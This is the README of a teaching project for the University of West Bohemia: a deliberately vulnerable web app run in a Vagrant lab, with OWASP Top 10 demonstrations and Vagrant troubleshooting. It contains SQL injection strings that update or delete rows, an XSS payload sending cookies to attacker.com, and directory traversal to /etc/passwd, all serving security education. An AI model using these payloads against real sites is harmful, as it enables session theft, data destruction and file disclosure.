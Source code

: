 # zcu_webapp_security_demo
Small education project demonstrating typical security vulnerabilities in web application.
Created for University of West Bohemia.

## Installation
* Install VirtualBox
* Install [Vagrant](https://docs.vagrantup.com/v2/installation/index.html "Vagrant docs - Istallation")
* Install Vagrant plugin for VirtualBox guest additions
```bash
> vagrant plugin install vagrant-vbguest
```
* checkout this repository
```bash
> git clone git@github.com:veny/zcu_webapp_security_demo.git
```
* run vagrant box
```bash
> cd zcu_webapp_security_demo
> vagrant up
```
* for the first time it will take about 15 minutes till vagrant is ready (depending on your internet connection)
* in browser go to http://192.168.33.10/zcu/index.php

## OWASP top 10 examples
* https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project

### Injection
* put that as password (empty username)
```sql
' OR id='2
```
* or even worst
```sql
'; UPDATE  user SET password='123
'; DELETE FROM user WHERE id='8
```

### XSS
* put following text as notice
```html
<b onmouseup=alert("XSS!")>click me!</b>
```
* or even worst
```html
"><script>document.location= "http://www.attacker.com/cgi-bin/cookie.cgi?foo="+document.cookie</script>"
```

### Broken Session Management
* application with URL rewriting
* no logout and session timeout

### Sensitive Data Exposure
* to monitor HTTP traffic
```bash
root> tcpdump -A -s 0 'tcp port 80 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```

### Cross-Site Request Forgery
* try this: http://192.168.33.10/zcu/index.php?action=create&notice=pokus


### Security Misconfiguration
* Directory listing is not disabled on your server
  * try this: http://192.168.33.10/zcu/list
  * selinux (setenforce 0, setenforce 1)
* Directory traversal
  * try this: http://192.168.33.10/zcu/list/get_file.php?file=../index.php
  * or this: http://192.168.33.10/zcu/list/get_file.php?file=../../../../etc/passwd


## Where to go next
See https://www.owasp.org/index.php/Category:OWASP_Top_Ten_2013_Project
____


### Vagrant troubleshooting (Fedora 23)

#### 1) Failed to mount folders in Linux guest.
```bash
Failed to mount folders in Linux guest. This is usually because the "vboxsf" file system is not
available. Please verify that the guest additions are properly installed in the guest and  can
work properly. The command attempted was:
mount -t vboxsf -o uid=`id -u vagrant`,gid=`getent group vagrant | cut -d: -f3` opt_zcu_demo /opt/zcu_demo
mount -t vboxsf -o uid=`id -u vagrant`,gid=`id -g vagrant` opt_zcu_demo /opt/zcu_demo
...
/sbin/mount.vboxsf: mounting failed with the error: No such device
```
  - Problem description and solution described here: https://github.com/dotless-de/vagrant-vbguest/issues/170
   - shortly: vagrant ssh, sudo systemctl enable vboxadd, service vboxadd start, vagrant reload, vagrant provision

#### 2) Building the main Guest Additions module fail --> sync folder not mounted
```bash
...
Installing Virtualbox Guest Additions 5.0.10 - guest version is unknown
Verifying archive integrity... All good.
Uncompressing VirtualBox 5.0.10 Guest Additions for Linux............
VirtualBox Guest Additions installer
Removing installed version 5.0.10 of VirtualBox Guest Additions...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Copying additional installer modules ...
Installing additional modules ...
Removing existing VirtualBox non-DKMS kernel modules[  OK  ]
Building the VirtualBox Guest Additions kernel modules
The headers for the current running kernel were not found. If the following
module compilation fails then this could be the reason.
The missing package can be probably installed with
yum install kernel-devel-3.10.0-229.14.1.el7.x86_64

Building the main Guest Additions module[FAILED]
(Look at /var/log/vboxadd-install.log to find out what went wrong)
...
```
   - shortly: vagrant ssh, sudo yum update, Ctrl+D, vagrant reload
